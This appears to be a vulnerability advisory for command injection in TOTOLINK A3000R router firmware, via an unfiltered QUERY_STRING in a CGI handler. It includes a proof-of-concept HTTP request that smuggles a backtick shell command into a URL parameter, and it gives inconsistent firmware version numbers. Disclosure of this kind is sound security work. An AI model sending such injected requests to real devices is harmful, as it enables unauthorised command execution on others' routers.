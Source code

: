 # TOTOLink A3000R V5.9c.4050_B20190425 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as  A3000R V5.9c.4050_B20190425 



## Description

### 1. Vulnerability details

TOTOLINK A3000R V4.1.2cu.5050_B20200504 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 2. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)